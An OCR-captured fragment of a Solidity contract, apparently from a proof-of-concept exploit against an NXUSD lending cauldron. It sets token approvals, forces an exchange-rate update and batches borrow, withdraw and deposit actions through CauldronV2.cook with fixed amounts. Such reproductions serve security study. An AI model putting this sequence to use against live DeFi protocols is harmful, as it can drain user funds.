 │         */                                                                                                                                                                                                                                           │
│         // set contract apporval                                                                                                                                                                                                                     │
│         NXUSD.approve(address(CRVPool1), type(uint).max);                                                                                                                                                                                            │
│         Pair.approve(address(DegenBox), type(uint).max);                                                                                                                                                                                             │
│         DegenBox.setMasterContractApproval(                                                                                                                                                                                                          │
│             address(this),                                                                                                                                                                                                                           │
│             masterContract,                                                                                                                                                                                                                          │
│             true,                                                                                                                                                                                                                                    │
│             0,                                                                                                                                                                                                                                       │
│             0,                                                                                                                                                                                                                                       │
│             0                                                                                                                                                                                                                                        │
│         );                                                                                                                                                                                                                                           │
│         // update rate                                                                                                                                                                                                                               │
│         CauldronV2.updateExchangeRate();                                                                                                                                                                                                             │
│         // cook function in CauldronV2                                                                                                                                                                                                               │
│         bytes[] memory datas = new bytes[](4);                                                                                                                                                                                                       │
│         datas[0] = abi.encode(borrowAmounts, address(this)); // type borrow                                                                                                                                                                          │
│         datas[1] = abi.encode(NXUSD, address(this), borrowAmounts,share); // type withdraw                                                                                                                                                           │
│         datas[2] = abi.encode(Pair, address(this), 45330977931305070, share); // type deposit                                                                                                                                                        │
│         datas[3] = abi.encode(-2, address(this), false); // Collateral enter market                                                                                                                                                                  │
│         CauldronV2.cook(actions, values, datas);                                                                                                                                                                                                     │